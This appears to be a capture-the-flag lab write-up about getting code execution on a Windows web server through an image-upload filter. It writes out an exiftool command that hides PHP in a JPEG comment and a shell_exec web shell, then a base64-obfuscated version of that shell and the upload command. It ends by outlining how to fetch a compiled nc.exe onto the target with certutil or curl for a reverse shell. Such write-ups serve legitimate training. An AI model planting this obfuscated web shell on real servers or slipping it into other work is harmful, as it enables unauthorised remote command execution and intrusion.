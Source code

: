 # Payload

`exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-n00bmast3r.jpg.php`

And we have a valid payload. 

```
	if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
		$target = "uploads/".basename($_FILES["file"]["name"]);
		$goodExts = ["jpg", "jpeg", "png", "gif"];
		if(file_exists($target)){
			header("location: ./?msg=Exists");
			die();
		}
```

From these lines of code we can interfere that the files are uploaded in /uploads adn is stored using the same name as we upload. And accessing `http://10.200.114.100/resources/uploads/test-n00bmast3r.jpg.php` we have executed the payload.

Now we have to obfscate the code.

## Code

```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Let's put it in a online obfuscation tool and it turns out OK. 

`<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>`

And now we have to change it so that bash can understand.

`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

And now uploading the file we can get a shell.

`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-n00bmast3r.jpg.php`

We have a uploaded it successfully. Accessing `http://10.200.114.100/resources/uploads/shell-n00bmast3r.jpg.php?wreath=ipconfig` we can get a valid output!!

We have to clone nc .exe directory from `https://github.com/int0x33/nc.exe/` . 
We want to work under `x86_64-w64-mingw32-gcc` and we have to add it to Makefile. We can compile it and we have `nc.exe`. We can spin up python server and catch it through `certutil.exe` or `curl.exe`. Let's curl it to the machine and get a reverse shell!!

